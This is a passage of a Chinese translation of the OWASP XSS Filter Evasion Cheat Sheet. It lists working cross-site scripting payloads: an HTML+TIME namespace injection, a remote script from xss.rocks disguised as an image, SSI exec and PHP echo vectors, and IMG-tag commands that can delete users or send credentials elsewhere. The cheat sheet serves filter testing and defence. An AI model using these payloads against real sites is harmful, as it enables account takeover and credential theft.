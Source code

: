 这就是 Gray Magic 入侵 Hotmail 和 Yahoo! 的方式。这仅适用于 IE 渲染引擎模式下的 Internet Explorer 和 Netscape 8.1，请记住，您需要位于 HTML 和 BODY 标记之间才能使其工作：

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

### 假设您只能容纳几个字符，并且它会过滤`.js`[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#assuming-you-can-only-fit-in-a-few-characters-and-it-filters-against-js)

您可以将 JavaScript 文件重命名为 XSS 向量的图像：

```
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI（服务器端包括）[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#ssi-server-side-includes)

这需要在服务器上安装 SSI 才能使用此 XSS 向量。我可能不需要提及这一点，但是如果您可以在服务器上运行命令，那么毫无疑问会出现更严重的问题：

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

### PHP[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#php)

需要在服务器上安装 PHP 才能使用此 XSS 向量。同样，如果您可以像这样远程运行任何脚本，则可能存在更多可怕的问题：

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG 嵌入式命令[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-embedded-commands)

当注入此内容的网页（如网络板）受密码保护并且密码保护与同一域上的其他命令一起使用时，此方法有效。这可用于删除用户、添加用户（如果访问该页面的用户是管理员）、将凭据发送到其他地方等......这是较少使用但更有用的 XSS 向量之一：

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### IMG 嵌入式命令第二部分[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#img-embedded-commands-part-ii)
